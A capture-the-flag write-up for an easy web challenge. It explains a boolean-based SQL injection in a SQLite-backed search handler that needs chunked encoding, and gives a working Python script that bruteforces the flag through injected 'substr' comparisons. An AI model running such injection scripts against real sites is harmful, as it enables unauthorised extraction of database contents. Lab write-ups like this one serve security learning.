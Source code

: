# Info
Difficulty: Easy
# Desc
>Are you able to retrieve the 6th character from the database?

# Writeup
This is a classic CRUD website, according to the provided source code, there are two methods that the server uses to query data in sqlite.
One is safe, but another is not. The unsafe query didn't sanitize input at all, so we can exploit to retrieve sensitive data.
The problem is the sqli is boolean-based, and it required the request to be sent in chunked encoding.

After spending some time testing, I have finally finished a script that sends chunked data and is able to bruteforce the flag.
```python
from requests import Request, Session
import urllib.parse, string
table = string.printable

url = "http://83.136.252.214:45440/Controllers/Handlers/SearchHandler.php"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
flag = ""

while "}" not in flag:
    next_index = len(flag)+1
    for index, char in enumerate(table):
        def gen():
            yield ("search=" + urllib.parse.quote(f"6' and substr(gamedesc,{next_index},1) = '{char}")).encode('utf-8')

        s = Session()
        r = Request('POST', url=url, headers=headers, data=gen())
        req = r.prepare()    
        res = s.send(req)
        if "No post id found" in res.text:
            flag += char
            print(flag)
            break
```